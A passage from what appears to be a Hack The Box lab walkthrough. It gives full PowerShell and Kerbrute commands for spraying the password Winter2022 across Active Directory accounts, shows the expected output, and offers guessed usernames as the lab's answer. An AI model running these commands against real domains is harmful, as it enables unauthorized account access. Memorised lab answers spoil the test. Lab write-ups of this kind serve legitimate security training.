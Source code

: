 #### 4️⃣ **Execute Password Spray with Winter2022**
```powershell
# Spray Winter2022 password against all domain users
Invoke-DomainPasswordSpray -Password Winter2022 -OutFile winter_spray_results -ErrorAction SilentlyContinue
```

#### 5️⃣ **Expected Output Analysis**
```powershell
# Tool will show:
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are XXXX total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing XXXX users gathered from the current user's domain

# When prompted:
Are you sure you want to perform a password spray against XXXX accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

# Success output will show:
[*] SUCCESS! User:[TARGET_USER] Password:Winter2022
```

#### 6️⃣ **Check Results File**
```powershell
# View successful logins
Get-Content winter_spray_results
type winter_spray_results

# Expected format:
# [TARGET_USER]:Winter2022
```

#### 7️⃣ **Alternative: Kerbrute from Windows**
```cmd
# If DomainPasswordSpray is unavailable, use Kerbrute
cd C:\Tools
kerbrute.exe passwordspray -d inlanefreight.local --dc 172.16.5.5 users.txt Winter2022
```

### ✅ **Expected Answer Format**
Based on typical HTB lab patterns, the answer should be a username like:
- `jhall`
- `mholliday` 
- `dgraves`
- `[specific_username]`

*(Actual answer will be visible in the spray results output)*

---

